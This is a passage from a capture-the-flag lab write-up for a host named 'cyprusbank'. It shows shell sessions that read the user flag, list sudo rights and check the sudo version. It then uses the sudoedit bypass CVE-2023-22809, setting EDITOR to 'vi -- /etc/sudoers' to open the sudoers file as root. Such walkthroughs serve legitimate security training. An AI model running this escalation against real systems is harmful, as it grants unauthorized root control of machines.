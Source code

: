#### flags
`2.` What is the `user.txt` flag?
````shell
web@cyprusbank:~$ ls -la
total 52
drwxr-xr-x 9 web  web  4096 Apr  4  2024 .
drwxr-xr-x 3 root root 4096 Jul 16  2023 ..
drwxr-xr-x 7 web  web  4096 Jul 17  2023 app
-rw-r--r-- 1 web  web   807 Jul 15  2023 .profile
-rw-r--r-- 1 root root   35 Jul 15  2023 user.txt
web@cyprusbank:~$ cat user.txt
````

---

### shell as root
Now, it's time to **escalate privileges** and obtain a **root** `shell`.
Running `sudo -l` reveals that,
````shell
web@cyprusbank:~$ sudo -l
Matching Defaults entries for web on cyprusbank:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR
    XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    mail_badpass

User web may run the following commands on cyprusbank:
    (root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
````    
The **web** user can run `sudoedit` as **root**
> **without** a `password` for: `/etc/nginx/sites-available/admin.cyprusbank.thm`
{: .prompt-info }

We found a **sudoedit** bypass (**[CVE-2023-22809](https://www.vicarius.io/vsociety/posts/cve-2023-22809-sudoedit-bypass-analysis)**) in **sudo ≤ 1.9.12p1**, allowing file `read/edit` via `EDITOR`.
````shell
web@cyprusbank:~$ sudoedit --version
Sudo version 1.9.12p1
Sudoers policy plugin version 1.9.12p1
Sudoers file grammar version 48
Sudoers I/O plugin version 1.9.12p1
Sudoers audit plugin version 1.9.12p1
````
> Since the system is running **sudo** version `1.9.12p1`, it is **vulnerable**.
{: .prompt-info }

To escalate privileges to **root**, we exploit the **sudoedit** bypass to modify `/etc/sudoers`.
````shell
web@cyprusbank:~$ export EDITOR="vi -- /etc/sudoers"
````
**Explanation:**
- `export`: Sets an **environment variable** for the current session.
- `EDITOR`: Specifies the **text editor** to be used by commands like `sudoedit`.
- `vi -- /etc/sudoers`:
     - `vi`: Sets `vi` as the **editor**.
     - `-- /etc/sudoers`: Appends the **file path**, tricking `sudoedit` into opening `/etc/sudoers`.
